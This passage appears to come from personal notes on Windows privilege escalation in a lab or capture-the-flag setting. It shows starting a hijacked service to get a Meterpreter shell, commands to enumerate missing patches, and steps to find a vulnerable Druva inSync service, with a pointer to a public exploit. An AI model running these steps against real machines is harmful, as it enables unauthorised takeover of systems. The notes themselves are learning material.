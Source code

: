         ```cmd
        # on victim
        # start the service
        net start MozillaMaintenance
        # we get an error while starting the service
        # but we get a Meterpreter shell on attacker
        ```
    
    * Check installed updates and find any missing patches based on KB ID - this gives an idea of most recent updates on machine:

        ```ps
        systeminfo

        wmic qfe list brief
        # gives a list of installed updates

        Get-Hotfix
        ```

* Vulnerable services:

    ```cmd
    # check installed programs
    wmic product get name
    # shows 'Druva inSync 6.6.3'
    # searching on Google shows exploits - https://www.exploit-db.com/exploits/49211

    # check local ports
    netstat -ano | findstr 6064
    # Druva inSync listening on port 6064 with PID 3324
    ```

    ```ps
    # process details for PID 3324
    get-process -Id 3324
    # shows process name
